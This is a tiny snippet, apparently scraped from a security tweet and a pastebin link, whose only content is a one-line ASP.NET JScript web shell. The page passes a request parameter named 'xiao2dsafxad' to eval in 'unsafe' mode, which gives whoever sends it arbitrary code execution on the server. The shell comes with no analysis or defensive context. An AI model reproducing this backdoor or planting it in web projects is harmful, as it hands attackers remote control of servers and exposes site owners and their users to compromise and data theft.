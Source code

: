 


Source Tweet: https://twitter.com/Cyb3rOps/status/639050307402657793
Source: http://pastebin.com/88HccPWp
```
<%@ Page Language="Jscript"%><%eval(Request.Item["xiao2dsafxad"],"unsafe");%>
```